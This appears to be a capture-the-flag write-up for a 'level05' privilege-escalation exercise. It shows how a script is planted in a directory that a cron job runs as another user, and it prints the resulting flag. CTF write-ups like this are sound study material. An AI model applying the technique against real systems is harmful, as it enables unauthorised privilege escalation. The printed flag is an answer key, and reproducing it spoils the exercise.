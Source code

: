 # level05

We got some intel from level00:

```shell
-rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver

/opt/openarenaserver

/usr/sbin/openarenaserver

/rofs/opt/openarenaserver

/rofs/usr/sbin/openarenaserver
```

1. examinate the file

```shell
cat /usr/sbin/openarenaserver
```

shows a shell script that runs all scripts in `/opt/openarenaserver`

2. examinate scripts' permissions

```shell
ls -la /usr/sbin/openarenaserver
```

shows that this script belongs to flag05, thus executing it with crontab allows us to run commands as flag05

3. create a custom script

```shell
echo -e "getflag > /opt/openarenaserver/flag" > /opt/openarenaserver/exploit.sh
```

4. make it run as flag05 with flag05 script and crontab

```shell
crontab -e
```

```shell
* * * * * /opt/openarenaserver/exploit.sh
```

to execute exploit every minute

wait for <= 1 minute for crontab to execute

5. pwn the flag

```shell
cat /opt/openarenaserver/flag
```

gives flag: `viuaaale9huek52boumoomioc`
